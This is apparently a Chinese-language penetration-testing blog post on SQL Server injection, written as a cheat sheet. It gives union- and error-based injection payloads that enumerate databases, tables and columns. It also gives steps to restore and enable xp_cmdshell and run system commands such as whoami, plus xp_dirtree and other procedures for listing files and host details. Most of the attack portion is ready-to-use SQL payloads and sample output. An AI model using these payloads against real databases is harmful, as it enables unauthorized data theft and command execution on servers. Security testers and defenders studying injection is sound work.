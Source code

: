 +++
title = "SQL Server注入"
topics = ["Pentest"]
tags = ["injection"]
description = "SQL Server注入常见的一些注入手法"
date = "2018-09-04T10:09:17+08:00"
draft = false
+++

### 0x00 基础信息探测
```sql
@@VERSION,@@SERVERNAME,@@SERVICENAME;
--Microsoft SQL Server 2008 (RTM) - 10.0.1600.22 (X64) 
--WIN-2008
--MSSQLSERVER

USER,CURRENT_USER,SESSION_USER,SYSTEM_USER;
--dbo
--dbo
--dbo
--sa

USER_NAME(),HOST_NAME(),HOST_ID(),SUSER_NAME();
--dbo
--wyb
--46530
--sa

USER_ID(),USER_SID();
--1
--<01>

ORIGINAL_LOGIN();
--sa
```

### 0x01 判断是否为sa权限
![75](/img/post/20180904-105516.png)

### 0x02 进行注入
* 得到所有数据库名字
![75](/img/post/20180904-110306.png)
```
--报错得到数据库名，前6个是系统自带的数据库，所以从第7个开始，dbid依次增加即可得到所有数据库
select id,name from msg where id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=7);
```
![75](/img/post/20180904-151240.png)

* 得到数据库test的所有表名（用户创建的表xtype的值是U）
![70](/img/post/20180904-111912.png)

```
--得到数据库test的第一张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U';

--得到数据库test的第二张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in ('article');
```
![80](/img/post/20180904-151551.png)

* 得到数据库test的表article的所有列名（先得到article的表id，然后得到列名）
![60](/img/post/20180904-112859.png)
![75](/img/post/20180904-112938.png)

* 得到数据库test的表article的数据
![75](/img/post/20180904-113720.png)

### 0x03 常见的SQL Server扩展存储过程 
* 执行系统命令

```sql
--判断xp_cmdshell是否被删除
?id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell')

--若xp_cmdshell被删除，可恢复且支持绝对路径的恢复 
exec master..sp_addextendedproc 'xp_cmdshell','xplog70.dll';

--开启xp_cmdshell
exec sp_configure 'show advanced options',1;
reconfigure;
exec sp_configure 'xp_cmdshell',1;
reconfigure;

--使用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami';
```

* 文件操作

```
#列目录、文件
exec master..xp_dirtree 'c:\wwwroot',1 #列c:\wwwroot下的文件夹 
exec master..xp_dirtree 'c:\wwwroot',1,1 #列c:\wwwroot下的文件夹和文件

exec master..xp_subdirs 'c:\wwwroot' #列c:\wwwroot下的文件夹

#显示系统可用盘符
exec master..xp_availablemedia
```

* 主机、中间件信息

```
#获得MS SQL的版本号
exec master..sp_msgetversion

#列出服务器上所有windows本地组
execu master..xp_enumgroups

#得到当前sql server服务器的计算机名称
exec master..xp_getnetname

#服务器安全模式信息
exec master..xp_loginconfig
```






